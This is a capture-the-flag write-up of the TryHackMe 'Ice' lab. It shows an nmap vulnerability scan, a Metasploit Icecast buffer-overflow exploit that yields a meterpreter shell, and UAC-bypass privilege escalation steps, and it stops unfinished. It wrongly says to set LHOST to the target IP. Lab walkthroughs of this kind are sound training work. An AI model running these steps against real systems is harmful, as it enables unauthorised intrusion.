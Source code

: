 # <div align="center">[ICE](https://tryhackme.com/r/room/ice)</div>
<div align="center">
<img src="https://miro.medium.com/v2/resize:fit:899/1*TxtDRv-bMxtlYtTwQ7TdCg.png" height="300"></img>
</div>

# <div align="center">Task 2. Recon</div>

## Let make a Nmap scan to identify running services
```
death@esther:~$ nmap 10.10.203.69 -sV -Pn -A --script=vuln -T 4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 09:07 IST
Nmap scan report for 10.10.203.69
Host is up (0.15s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
8000/tcp  open  http               Icecast streaming media server
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 806.12 seconds
```

### According to scan results:
* #### Windows 7 is used.
* #### Microsoft Remote Desktop (MSRDP) is running on port ```3389```.
* #### HTTP is running on port 8000 with ```Icecast``` service.
* #### The Host is ```DARK-PC```.

# <div align="center">Task 3. Gain Access</div>

### As the IceCast media server is  present let search of any vulnerability.

![image](https://github.com/user-attachments/assets/b0f90db5-8ab2-4eae-84b9-42623873d814)

### In IceCast server a [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) is present.
* #### Becouse of buffer overflow it alows an attacker to execute code.
* #### It have 6.4 Impact score.
* #### It can be exploit by metasploit.

## Let exploit using Msfconsole.
* #### To open msfconsole type msfconsole on termial.
* #### search for Icecast

![image](https://github.com/user-attachments/assets/c6d30d10-fe9b-4ad8-a62e-6f9e4f2b0c85)

### This is the exploit ```exploit/windows/http/icecast_header``` we were going to use.
* #### For using this expoit type ```Use 0``` on termial.

![image](https://github.com/user-attachments/assets/41eb5515-fd79-4902-a8c7-412ebdf175f9)

### Let configure this Exploit to gain Shell.

* #### Type ```show options``` so knew about required settings.

![image](https://github.com/user-attachments/assets/024e6a76-e14c-4101-b7d9-798a3e0f078a)

* #### We only need to set is RHOSTS and Our LHOST the Target Address.
* #### For setting RHOSTS use:
```
set RHOSTS <Target IP>
```

![image](https://github.com/user-attachments/assets/fa47950a-1847-45b5-bc6e-198a3e1414cb)

* #### For setting LHOST use:
```
set LHOST <Target IP>
```
![image](https://github.com/user-attachments/assets/9f3acd6b-a3c3-4d20-a3db-f0c030f8ab52)


### So it time to Run Exploit
```
run
```

![image](https://github.com/user-attachments/assets/ba03e8ef-93a6-4599-8655-88127d4876af)

### We got the meterpreter Shell

## <div align="center"> Task 4. Escalate</div>
###  Let get the user id using command
```
getuid
```

![image](https://github.com/user-attachments/assets/c97d9f94-5a8f-4410-bf84-c8a512020b6e)

* ### The ```Dark``` is the user.

### Let take a view at system info.
```
sysinfo
```

![image](https://github.com/user-attachments/assets/4d8f5795-c2d8-46b1-8f5c-add9b7efa21d)

* ### The buid is ```7601```.
* ### The Architecture is ```x64```.

### Let run a post module of recon to get more way to exploit this system.
```
run post/multi/recon/local_exploit_suggester
```

![image](https://github.com/user-attachments/assets/9e70bc03-f656-42e2-9963-f9f681fb569e)

* ### The first exploit we got is
```
exploit/windows/local/bypassuac_eventvwr
```

### Now we have an exploit let backgound this session using 
```
ctrl + z
```
### So. let run the exploit we found
```
use exploit/windows/local/bypassuac_eventvwr
```

## oh sry my machine got expired
